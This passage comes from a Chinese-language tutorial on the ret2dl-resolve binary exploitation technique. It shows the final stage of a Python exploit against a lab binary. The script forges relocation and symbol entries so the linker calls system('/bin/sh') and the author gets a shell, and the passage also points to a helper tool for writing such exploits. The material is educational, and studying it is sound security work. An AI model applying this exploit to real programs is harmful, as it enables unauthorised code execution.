 同样会把我们输入的`cmd`打印出来

![Alt text](http://drops.javaweb.org/uploads/images/8336b0988dfb34b8d9183b6bb17cca112f2f818f.jpg)

**stage6**

替换`write`为`system`,并修改`system`的参数

```
...
cmd = "/bin/sh"
addr_plt_start = 0x8048370 # objdump -d -j.plt bof
addr_rel_plt   = 0x8048318 # objdump -s -j.rel.plt a.out
index_offset   = (base_stage + 28) - addr_rel_plt
addr_got_write = 0x804a020
addr_dynsym    = 0x080481d8
addr_dynstr    = 0x08048268
addr_fake_sym  = base_stage + 36
align          = 0x10 - ((addr_fake_sym - addr_dynsym) & 0xf)
addr_fake_sym  = addr_fake_sym + align
index_dynsym   = (addr_fake_sym - addr_dynsym) / 0x10
r_info         = (index_dynsym << 8 ) | 0x7
fake_reloc     = l32(addr_got_write) + l32(r_info)
st_name        = (addr_fake_sym + 16) - addr_dynstr
fake_sym       = l32(st_name) + l32(0) + l32(0) + l32(0x12)

buf2 = 'AAAA'
buf2 += l32(addr_plt_start)
buf2 += l32(index_offset)
buf2 += 'AAAA'
buf2 += l32(base_stage+80)
buf2 += 'aaaa'
buf2 += 'aaaa'
buf2 += fake_reloc
buf2 += 'B' * align
buf2 += fake_sym
buf2 += "system\x00"
buf2 += 'A' * (80-len(buf2))
buf2 += cmd + '\x00'
buf2 += 'A' * (100-len(buf2))
io.writeline(buf2)
io.interact()

```

得到一个`shell`

![Alt text](http://drops.javaweb.org/uploads/images/8bc9f183f69cc92019e5f056ed4f3b63eed258c6.jpg)

### WTF

以上只是叙述原理，当然你比较懒的话，这里已经有成熟的工具辅助编写利用脚本[roputils](https://github.com/inaz2/roputils/blob/master/examples/dl-resolve-i386.py)